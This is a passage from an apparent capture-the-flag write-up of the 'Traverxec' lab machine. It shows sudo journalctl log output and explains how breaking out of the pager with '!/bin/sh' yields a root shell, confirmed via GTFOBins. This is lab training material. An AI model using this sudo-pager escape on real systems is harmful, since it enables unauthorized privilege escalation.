 ```bash
                                                                                                                    
Last 5 journal log lines:                                                                                           
-- Logs begin at Sat 2022-07-16 15:52:47 EDT, end at Sat 2022-07-16 23:11:39 EDT. --                                
Jul 16 18:50:07 traverxec sudo[11995]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/1 ruser=www-data rhost=  user=www-data                                                                          
Jul 16 18:50:20 traverxec sudo[12001]: www-data : unknown user: #-1                                                 
Jul 16 19:35:35 traverxec sudo[12097]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/2 ruser=www-data rhost=  user=www-data                                                                          
Jul 16 20:59:09 traverxec su[12190]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/2 ruser=www-data rhost=  user=david                                                                                      
Jul 16 20:59:10 traverxec su[12190]: FAILED SU (to david) www-data on pts/2                                         
# /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2022-07-16 15:52:47 EDT, end at Sat 2022-07-16 23:12:11 EDT. --
Jul 16 18:50:07 traverxec sudo[11995]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/
Jul 16 18:50:20 traverxec sudo[12001]: www-data : unknown user: #-1
Jul 16 19:35:35 traverxec sudo[12097]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/
Jul 16 20:59:09 traverxec su[12190]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/2 rus
Jul 16 20:59:10 traverxec su[12190]: FAILED SU (to david) www-data on pts/2
```  

This is interesting because the bash script (.sh) calls sudo, then runs journalctl, with a -n5 tag and -unostromo.service. Piping it into cat after isn't so valuable here.  
What took me the longest was figuring out that I needed to run the individual commands without piping them into /usr/bin/cat, like the script does. If I run them this way, I get an opportunity to enter a Unix binary function.  

I need a Unix binary function to bypass security and priv-esc to root, and oftentimes it ends up being '!/bin/sh'. Using [GTFOBins](https://gtfobins.github.io/) to confirm, it is !/bin/sh.  

### Root Flag  

So, let's go ahead and run the individual commands and insert our function:  

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service   
                                 
-- Logs begin at Sat 2022-07-16 15:52:47 EDT, end at Sat 2022-07-16 23:08:14 EDT. --                                
Jul 16 18:50:07 traverxec sudo[11995]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/
Jul 16 18:50:20 traverxec sudo[12001]: www-data : unknown user: #-1                                                 
Jul 16 19:35:35 traverxec sudo[12097]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/
Jul 16 20:59:09 traverxec su[12190]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/2 rus
Jul 16 20:59:10 traverxec su[12190]: FAILED SU (to david) www-data on pts/2    
                                     
!/bin/sh
# whoami
                                                                                                            
root

# cd /root
# ls
```